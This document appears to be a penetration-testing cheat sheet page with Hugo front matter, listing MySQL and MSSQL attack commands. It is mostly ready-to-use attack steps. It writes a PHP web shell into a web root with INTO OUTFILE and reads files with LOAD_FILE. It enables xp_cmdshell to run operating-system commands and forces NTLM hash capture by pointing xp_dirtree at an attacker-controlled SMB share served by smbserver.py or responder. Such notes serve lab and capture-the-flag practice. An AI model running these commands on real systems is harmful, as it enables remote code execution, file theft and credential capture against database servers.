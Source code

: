 ```yaml
---
title: "Mssql-Mysql"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
  noindex: false # false (default) or true
---
```



**Mysql**

- Upload file when root : 
```sql
select '<?php echo "command: " . system($_REQUEST["cmd"]); ?>' into outfile "C:\\xampp\\htdocs\\dev\\shell.php";
```

- Read file : 
```sh
SELECT LOAD_FILE('C:\\Users\\Administrator\\Desktop\\root.txt');
```

- Check permissions : 
```sql
SHOW GRANTS FOR CURRENT_USER;
select system_user();
```

**MSSQL**
- Enable xp_cmdshell with sp_configure
```sh
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
# this enables xp_cmdshell
EXEC sp_configure 'xp_cmdshell', '1' 
RECONFIGURE
```
- Disable xp_cmdshell with sp_configure

```sh
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
#this disables xp_cmdshell
EXEC sp_configure 'xp_cmdshell', '0' 
RECONFIGURE

EXEC xp_cmdshell 'whoami';
```

- Mssql command : 
```sh
enum_db

use db;

SELECT TABLE_NAME FROM Demo.INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE';

SELECT * from db;
```

- Catch hash with xp_dirtree : 
```sh
EXEC master.sys.xp_dirtree '\\10.8.3.12\myshare',1,1
smbserver.py -smb2support share .
#or 
responder --interface "tun0" -wd
```